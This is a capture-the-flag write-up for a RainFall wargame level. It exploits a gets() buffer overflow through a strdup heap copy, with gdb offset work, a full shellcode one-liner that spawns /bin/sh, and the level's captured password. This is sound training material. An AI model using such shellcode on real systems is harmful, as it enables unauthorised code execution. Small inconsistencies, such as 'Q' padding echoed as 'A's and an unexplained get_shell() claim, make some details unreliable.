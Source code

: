 # Level3

## Objective

The goal of Level 3 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
bjr
level2@RainFall:~$ ./level2
blablibloublu
level2@RainFall:~$
```

> **Observation**: The program take an input and quit, suggesting a **buffer overflow** ??.

---

## Step 2: Investigate the Code Behavior

By disassembling the main we find a function called `p()`, using again the disass cmd we find that the function uses `gets()` to read user input, which means there's a overflow vulnerability.

```bash
Dump of assembler code for function main:
    0x08048545 <+6>:     call   0x80484d4 <p>
Dump of assembler code for function p:
    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```

But here's the problem, the stack isn't usable this time to overflow.
<+39> - <+44> : Execute a logical AND on eax then compare it to "0xb0000000". 
This check is made to be sure we don't overwrite the return address to an address on the stack.

```bash
Dump of assembler code for function p:
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

The point is to use a different way to override... Maybe the HEAP ?
The Heap overflow exists and needs a malloc to be executed. We're lucky we found with ltrace a `strdup()` using a malloc.
Everything given to the `strdup()` is stored thanks to the malloc directly to the heap. The whole point here is to give `strdup()` a shellcode to execute with the syscall 
execve directly inside !

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c '"Aa0Aa1Aa2..."')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x37634136
```

Now we find the exact offset:

in ASCII translate to 0x36 0x41 0x63 0x37 meaning 6Ac7 here.

> The return address is overwritten after **80 bytes**.

---

## Step 4: So what's the expected input?

To exploit this binary, we provide three parts in our input:

1. **Shellcode** – a small sequence of instructions that executes `/bin/sh`.
2. **Padding** – filler bytes (`"A" * 59` here) to reach the saved return address on the stack.
3. **Return address** – overwritten with `0x0804a008`, which points to the buffer where our shellcode is stored.

When the function returns, execution jumps into our injected shellcode, giving us a shell.

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "Q" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

**End of Level 3 Walkthrough**


